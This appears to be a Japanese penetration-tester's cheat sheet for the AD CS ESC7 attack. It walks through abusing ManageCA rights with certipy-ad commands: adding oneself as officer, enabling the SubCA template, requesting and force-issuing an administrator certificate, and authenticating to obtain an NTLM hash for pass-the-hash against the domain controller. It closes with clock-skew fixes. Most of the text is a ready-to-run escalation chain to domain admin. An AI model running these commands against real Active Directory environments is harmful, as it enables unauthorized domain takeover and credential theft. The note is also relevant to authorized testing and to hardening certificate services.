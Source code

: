 # ESC7

ADCS ESC7 攻撃は、`ManageCA`アクセス権と `Manage Certificates` アクセス権の組み合わせを悪用する。この攻撃では、ManageCAアクセス権を持つ攻撃者は、自分自身を新しい担当者として追加し、自分自身にManage Certificatesアクセス権を付与することできる

その後、下位認証局 `SubCA` 証明書テンプレートを使用して証明書を要求できる。この要求は最初は拒否されるが、高い権限を持つ攻撃者は、以前に拒否された証明書要求を発行できる。これにより、権限を昇格し、ドメイン管理者としてアクセスできるようになる

## 前提条件 – ESC7 攻撃

ESC7攻撃を行うには、次の要件を満たす必要がある

- `ManageCA` 権限

- `Manage Certificates` 権限

  `ManageCA` アクセス権があれば、自分自身に `Manage Certificates` アクセス権を付与することができる。これは、ユーザーアカウントを新しい役員として追加することで実行できる

  ```
  certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -add-officer <USERNAME>
  ```

- 証明書テンプレートSubCA を有効にする
  - 証明機関 (CA) の管理**および**証明書の管理アクセス権を持つユーザーは、失敗した証明書要求を発行できる
  - SubCA 証明書テンプレートは ESC1 に対して脆弱だが、テンプレートに登録できるのは管理者のみ
  - ユーザーはSubCA に証明書を要求できる。この要求は最初は拒否されるが、マネージャーが承認して証明書を発行することができる

すべてのtamplateを表示する

```
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca <CA_NAME> -list-templates
```

証明書テンプレートSubCA を有効にする

```
certipy-ad ca -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -dc-ip <DC_IP> -ca "<CA_NAME>" -enable-template SubCA
```

## 証明書を要求する

### SubCA テンプレートを使用して証明書を要求する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -template SubCA -upn administrator@<DOMAIN>
```

### 失敗した証明書要求を発行する

```
# 以前に拒否されたリクエストIDを指定する
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -issue-request <id>
```

### 発行された証明書を取得する

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p "<PASSWORD>" -ca <CA_NAME> -target <DC_IP> -retrieve <id>
```

### 証明書を使用して認証する

```
certipy-ad auth -pfx administrator.pfx -dc-ip <DC_IP>
```

NTLMハッシュを取得すると Pass-The-Hash攻撃でDCにアクセスできる

[Pass-The-Hash]()



## 証明書取得の際にエラーが出るとき

攻撃端末と攻撃対象のサーバーの時間が同期されていないと `[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` というエラーが出て、失敗するので攻撃対象のサーバーの時間を同期する必要がある。

以下のコマンドでDNSサーバ―と時間を同期させる

```
sudo ntpdate -n <DNS_IP>
```

これでもうまくいかない場合、ネットワークタイムプロトコルの自動更新を無効にする

```
timedatectl set-ntp off
```

その後、時間をもう一度同期させるとできるはず

